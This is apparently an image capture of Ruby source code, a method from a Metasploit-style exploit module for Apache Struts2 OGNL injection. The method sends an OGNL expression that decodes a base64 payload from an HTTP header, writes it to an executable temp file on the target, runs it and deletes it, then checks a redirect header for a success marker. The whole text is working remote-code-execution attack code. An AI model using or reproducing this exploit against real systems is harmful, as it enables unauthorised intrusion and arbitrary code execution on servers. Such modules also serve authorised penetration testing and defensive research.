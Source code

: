       def send_payload
        # Probe for the target OS and architecture
        begin
          properties = profile_target
          os = properties[:'os.name'].downcase
        rescue
          vprint_warning("Target profiling was unable to determine operating system")
          os = ''
          os = 'windows' if datastore['PAYLOAD'].downcase.include? 'win'
          os = 'linux'   if datastore['PAYLOAD'].downcase.include? 'linux'
          os = 'unix'    if datastore['PAYLOAD'].downcase.include? 'unix'
        end

        data_header = datastore['HEADER']
        if data_header.empty?
          fail_with(Failure::BadConfig, "HEADER parameter cannot be blank when sending a payload")
        end

        random_filename = datastore['TEMPFILE']

        # d = data stream from HTTP header
        # f = path to temp file
        # s = stream/handle to temp file
        ognl  = ""
        ognl << %q|(#_memberAccess['allowStaticMethodAccess']=true).| if datastore['ENABLE_STATIC']
        ognl << %Q|(#d=@org.apache.struts2.ServletActionContext@getRequest().getHeader('#{data_header}')).|
        ognl << %Q|(#f=@java.io.File@createTempFile('#{random_filename}','tmp')).|
        ognl << %q|(#f.setExecutable(true)).|
        ognl << %q|(#f.deleteOnExit()).|
        ognl << %q|(#s=new java.io.FileOutputStream(#f)).|
        ognl << %q|(#d=new sun.misc.BASE64Decoder().decodeBuffer(#d)).|
        ognl << %q|(#s.write(#d)).|
        ognl << %q|(#s.close()).|
        ognl << %q|(#p=new java.lang.ProcessBuilder({#f.getAbsolutePath()})).|
        ognl << %q|(#p.start()).|
        ognl << %q|(#f.delete()).|

        success_string = rand_text_alpha(4)
        ognl << %Q|('#{success_string}')|

        exe = [generate_payload_exe].pack("m").delete("\n")
        r = send_struts_request(ognl, payload: exe)

        if r && r.headers && r.headers['Location'].split('/')[1] == success_string
          print_good("Payload successfully dropped and executed.")
        elsif r && r.headers['Location']
          vprint_error("RESPONSE: " + r.headers['Location'])
          fail_with(Failure::PayloadFailed, "Target did not successfully execute the request")
        elsif r && r.code == 400
          fail_with(Failure::UnexpectedReply, "Target reported an unspecified error while executing the payload")
        end
      end
    end